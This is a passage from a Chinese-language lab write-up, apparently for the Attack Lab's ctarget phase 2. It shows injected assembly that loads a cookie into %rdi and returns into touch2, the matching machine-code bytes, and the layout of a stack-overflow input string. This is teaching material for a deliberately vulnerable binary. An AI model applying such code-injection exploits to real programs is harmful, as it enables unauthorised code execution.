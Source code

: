   画出读入字符后的栈帧图如下：![1-stack](1-stack.jpg)

* **phase2**

  在ctarget.s中进行查找，找到<touch2>的地址0x40185f以及栈顶寄存器%rsp的地址0x556120f0，以及由输出信息知道cookie的值为0x659eb3c8。本部分我们需要插入代码，先将插入的代码写进inject2.s:

  ```gas
   1 # inject codes of CIA-L2
    2
    3 movq    $0x659eb3c8, %rdi   # cookie --> rdi
    4 pushq   $0x40185f   # call touch2
    5 ret
  ```

  然后我们使用gcc -c指令将inject2.s其转化为inject2.o文件，再用objdump -d看到该指令的16进制表示：

  ```gas
  48 c7 c7 c8 b3 9e 65    mov    $0x659eb3c8,%rdi
  68 5f 18 40 00          pushq  $0x40185f
  c3						retq
  ```

  于是我们输入的字符串的成分为：

  **代码对应的指令（<test>返回到%rsp地址会时执行） + 补齐字符（到40）+ %rsp地址**

  画出读入字符串后的栈帧图像：
